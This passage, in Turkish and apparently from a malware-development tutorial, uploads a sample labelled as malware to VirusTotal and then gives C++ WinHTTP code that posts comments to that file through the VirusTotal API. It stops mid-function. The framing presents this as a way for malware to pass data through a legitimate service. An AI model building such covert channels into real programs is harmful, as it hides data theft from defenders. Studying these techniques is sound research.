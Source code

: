 ![malware](./images/126/2024-06-25_14-09.png){width="80%"}    

Ve VirusTotal’a yükleyin:    

![malware](./images/126/2024-06-25_14-00.png){width="80%"}    

[https://www.virustotal.com/gui/file/379698a4f06f18cb3ad388145cf62f47a8da22852a08dd19b3ef48aaedffd3fa/details](https://www.virustotal.com/gui/file/379698a4f06f18cb3ad388145cf62f47a8da22852a08dd19b3ef48aaedffd3fa/details)    

Bir sonraki adımda, bu dosyaya yorum göndermek için basit bir mantık oluşturacağız:    

```cpp
#define VT_API_KEY "VIRUS_TOTAL_API_KEY"
#define FILE_ID "379698a4f06f18cb3ad388145cf62f47a8da22852a08dd19b3ef48aaedffd3fa"

// send data to VirusTotal using winhttp
int sendToVT(const char* comment) {
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, 
  WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. Error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"www.virustotal.com", 
  INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
  }

  HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"POST", L"/api/v3/files/" 
  FILE_ID "/comments", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, 
  WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
    fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
  }

  // construct the request body
  char json_body[1024];
  snprintf(json_body, sizeof(json_body), 
  "{\"data\": {\"type\": \"comment\", \"attributes\": {\"text\": \"%s\"}}}", 
  comment);

  // set the headers
  if (!WinHttpSendRequest(hRequest, 
  L"x-apikey: " VT_API_KEY "\r\nUser-Agent: vt v.1.0\r\nAccept-Encoding: gzip, deflate\r\nContent-Type: application/json", 
  -1, (LPVOID)json_body, 
  strlen(json_body), strlen(json_body), 0)) {
    fprintf(stderr, "WinHttpSendRequest. Error %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  BOOL hResponse = WinHttpReceiveResponse(hRequest, NULL);
  if (!hResponse) {
```